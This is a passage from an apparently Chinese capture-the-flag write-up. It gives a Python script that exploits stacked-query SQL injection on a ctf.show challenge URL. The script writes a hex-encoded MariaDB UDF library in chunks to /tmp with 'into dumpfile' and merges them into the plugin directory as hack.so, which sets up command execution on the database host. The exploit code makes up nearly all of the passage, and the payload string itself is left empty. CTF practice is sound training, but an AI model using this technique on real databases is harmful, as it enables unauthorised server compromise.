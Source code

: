 ![image-20250218220305454](../assets/image-20250218220305454.png)

但是由于get传参有长度限制，我们需要进行分段传参

放一个国外大佬的脚本，将udf文件分段上传后再进行合并即可

```
import requests
url="http://449c0852-2873-4a47-9eb4-a854915a6b40.challenge.ctf.show/api/"
udf=""
udfs=[]
for i in range(0,len(udf),5000):
    udfs.append(udf[i:i+5000])
#写入多个文件中
for i in udfs:
    url1=url+f"?id=1';SELECT '{i}' into dumpfile '/tmp/"+str(udfs.index(i))+".txt'%23"
    requests.get(url1)

#合并文件生成so文件
url2=url+"?id=1';SELECT unhex(concat(load_file('/tmp/0.txt'),load_file('/tmp/1.txt'),load_file('/tmp/2.txt'),load_file('/tmp/3.txt'))) into dumpfile '/usr/lib/mariadb/plugin/hack.so'%23"
requests.get(url2)

```